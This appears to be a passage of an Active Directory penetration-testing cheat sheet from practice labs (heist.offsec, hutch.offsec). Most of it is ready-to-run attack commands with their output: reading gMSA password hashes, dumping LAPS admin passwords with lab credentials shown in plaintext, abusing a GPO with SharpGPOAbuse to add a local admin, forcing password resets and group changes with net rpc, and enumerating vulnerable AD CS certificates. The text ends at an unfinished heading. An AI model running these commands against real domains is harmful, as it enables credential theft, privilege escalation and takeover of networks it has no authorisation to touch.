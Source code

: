 ```
Get-ADServiceAccount -Filter {name -eq 'svc_apache'} -Properties * | Select CN,DNSHostName,DistinguishedName,MemberOf,Created,LastLogonDate,PasswordLastSet,msDS-ManagedPasswordInterval,PrincipalsAllowedToDelegateToAccount,PrincipalsAllowedToRetrieveManagedPassword,ServicePrincipalNames
.\GMSAPasswordReader.exe --accountname=SVC_APACHE

[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 83AC7FECFBF44780E3AAF5D04DD368A5
[*]       aes128_cts_hmac_sha1 : 08E643C43F775FAC782EDBB04DD40541
[*]       aes256_cts_hmac_sha1 : 588C2BB865E771ECAADCB48ECCF4BCBCD421BF329B0133A213C83086F1A2E3D7
[*]       des_cbc_md5          : 9E340723700454E9

Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 0AFF0D9DFA8B436E6688697B0A47B50C (NTLM Hash)
[*]       aes128_cts_hmac_sha1 : C958BEE96DEE78F9035F460B91EC6D86
[*]       aes256_cts_hmac_sha1 : D3C18DAF21128CAFEAECE5BFF6599A0A4DFB2E9BE22F6CFE13677688B0A34988
[*]       des_cbc_md5          : 0804169DCECB6102
```
#### Abusing ReadLaps Password
>LAPS allows you to manage the local Administrator password (which is randomized, unique, and changed regularly) on domain-joined computers. These passwords are centrally stored in Active Directory and restricted to authorized users using ACLs. 
```
lapsdumper -u fmcsorley -p CrabSharkJellyfish192 -d hutch.offsec -l 192.168.153.122
lapsdumper -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc host
ldapsearch -v -c -D fmcsorley@hutch.offsec -w CrabSharkJellyfish192 -b "DC=hutch,DC=offsec" -H ldap://192.168.153.122 "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```
#### Abusing GPO (Group Policy Object)
Check:
```
Import-Module .\PowerView.ps1
Get-NetGPO
Get-GPPermission -Guid 31B2F340-016D-11D2-945F-00C04FB984F9(gpcfilesyspath) -TargetType User -TargetName anirudh
```
Abuse:
```
./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy" (add anirudh to local admin group)
gpupdate /force
```
#### Linux Abuse of Over large Permission Over Group
Add the user to the target group
```
net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```
Change Existing user password
```
net rpc password "JODIE.SUMMERS" "newP@ssword2022" -U "nara-security.com"/"Tracy.White"%"zqwj041FGX"@ -S "192.168.223.30"
```
#### Abusing Active Directory Certificates
Enumerating vulnerable certificates
```
certipy-ad find -u xxx -p xxxx -dc-ip xxx.xxx.xxx.xxx -stdout -vulnerable
```
###### AD CS Domain Escalation